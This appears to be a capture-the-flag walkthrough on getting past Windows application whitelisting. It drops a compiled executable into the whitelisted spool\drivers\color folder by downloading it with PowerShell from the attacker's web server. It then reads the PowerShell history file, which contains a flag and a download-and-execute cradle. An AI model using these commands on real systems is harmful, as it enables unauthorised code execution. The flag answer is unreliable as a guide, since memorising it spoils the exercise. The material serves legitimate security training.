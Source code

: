 ```c
#include<stdio.h>

int main() {
  printf("Hello World!");
  return 0;
}
```

Compile the program:

~~~
$ x86_64-w64-mingw32-gcc hello.c -o hello.exe
~~~

Now, transfer this executable on the remote machine. We'll make it available via a python web server with `python3 -m http.server` on our workstation.

Download it on the Windows machine using the following Powershell command:

~~~
C:\Users\dark>powershell -c "Invoke-WebRequest -Uri 'http://10.9.0.54:8000/hello.exe' -OutFile 'C:\Windows\System32\spool\drivers\color\hello.exe'"
~~~

Now, execute the program:

~~~
c:\Windows\System32\spool\drivers\color>hello.exe
Hello World!
~~~

It worked because the program was executed in a whitelisted location. Now, if we copy the executable to the user's desktop, and try to execute it, it will be blocked.

~~~
c:\Windows\System32\spool\drivers\color>copy hello.exe c:\users\dark\desktop
        1 file(s) copied.

c:\Windows\System32\spool\drivers\color>cd \users\dark\desktop

c:\Users\dark\Desktop>hello.exe
This program is blocked by group policy. For more information, contact your system administrator.
~~~

## #2.2

**Just like Linux bash, Windows powershell saves all previous commands into a file called `ConsoleHost_history`. This is located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`**

**Access the file and and obtain the flag.**

*Hint: `%userprofile%` is `c:\users\dark\` in this example.*

~~~
c:\Users\dark\Desktop>more \Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
ls
dir
Get-Content test
flag{a12a41b5f8111327690f836e9b302f0b}
iex(new-object net.webclient).DownloadString('http://127.0.0.1/test.ps1')
cls
exit
~~~
